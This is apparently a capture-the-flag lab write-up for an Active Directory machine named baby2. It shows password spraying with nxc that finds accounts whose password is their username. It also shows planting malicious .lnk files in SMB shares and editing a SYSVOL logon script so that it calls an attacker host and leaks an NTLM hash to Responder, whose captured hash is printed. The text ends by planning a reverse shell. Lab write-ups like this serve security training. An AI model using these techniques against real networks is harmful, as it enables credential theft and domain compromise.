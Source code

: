 
then start responder or inveight and listen

we can put the file in every users folder in the smb share `homes` including the folder just before the users folder

now we wait.

it seems like it did not work :( 

BUUUUTT

after some testing i found that the user `Carl.Moore` and `library` has its own username as password

```
nxc smb baby2.vl -u usernames.txt -p usernames.txt --continue-on-success

SMB         10.10.106.166   445    DC               [+] baby2.vl\Carl.Moore:Carl.Moore 
SMB         10.10.106.166   445    DC               [+] baby2.vl\library:library 
SMB         10.10.106.166   445    DC               [-] Neo4J does not seem to be available on bolt://127.0.0.1:7687.

```

```
Carl.Moore:Carl.Moore
library:library
```

and he is also able to put the malicius .lnk fle in the dev folder in the smb share `apps` and also in the `docs` share just to be safe

but we get no hash so it is not that



but. we found that `Carl.Moore` can READ in the share `SYSVOL` but we also found out the user can upload file. we found the login.vbs script and edited to get a hash 

we added:
``` 
Dim objShell
Set objShell = WScript.CreateObject ("WScript.shell")
objShell.run "cmd /c copy \\10.8.1.92\pwn"
Set objShell = Nothing

```

in responder:
```
[SMB] NTLMv1-SSP Client   : 10.10.94.173
[SMB] NTLMv1-SSP Username : BABY2\Amelia.Griffiths
[SMB] NTLMv1-SSP Hash     : Amelia.Griffiths::BABY2:E97E1E1E22D3C83C97CEB1E5542389E126B797C45EA8E206:E97E1E1E22D3C83C97CEB1E5542389E126B797C45EA8E206:1122334455667788

```


since we cant crack it. we can try to make it execute a powershell script to get reverse shell
